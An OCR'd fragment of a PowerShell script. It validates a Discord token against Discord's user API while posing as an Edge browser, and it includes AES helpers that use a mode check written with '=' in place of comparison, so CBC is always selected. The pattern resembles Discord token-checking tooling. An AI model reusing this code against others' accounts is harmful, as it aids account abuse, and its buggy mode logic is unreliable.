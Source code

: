```powershell
    process {
        try {
            $Headers = @{
                "Authorization" = $Token
                "Content-Type" = "application/json"
                "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36"
            }

            $Uri = "https://discord.com/api/v9/users/@me"

            $Response = Invoke-RestMethod -Uri $Uri -Method Get -Headers $Headers
            return $Response
        }
        catch {}
    }
}

function Create-AesManagedObject($key, $IV, $mode) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"

    if ($mode="CBC") { $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC }
    elseif ($mode="CFB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CFB}
    elseif ($mode="CTS") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CTS}
    elseif ($mode="ECB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::ECB}
    elseif ($mode="OFB"){$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::OFB}


    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
        }
        else {
            $aesManaged.IV = $IV
        }
    }
    if ($key) {
        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Encrypt-String($key, $plaintext) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    [System.Convert]::ToBase64String($fullData)
}

Write-Host "
______              ______ _                       _   _   _ _ _               _____  _____  _____   ___
```